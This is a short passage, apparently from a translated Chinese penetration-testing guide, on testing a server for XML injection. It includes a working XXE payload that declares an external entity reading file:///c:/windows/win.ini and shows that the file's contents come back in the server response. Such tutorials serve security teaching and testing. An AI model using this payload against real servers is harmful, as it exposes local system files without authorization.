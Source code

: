     ![](img/B17765_07_25.png)

    图 7.25：服务器响应 XML 提交的成功响应

1.  如果服务器在没有错误消息的情况下响应，它可能容易受到 XML 注入攻击。

1.  现在，我们可以通过将`SYSTEM`添加到变量中并调用本地文件来创建有效负载：

    ```
    <!DOCTYPE foo [ <!ENTITY testref  SYSTEM  "file:///c:/windows/win.ini" > ]>
    <somexml><message>&testref;</message></somexml> 
    ```

    如果成功，你应该能够看到被调用文件的内容，如下所示：

    ![](img/B17765_07_26.png)
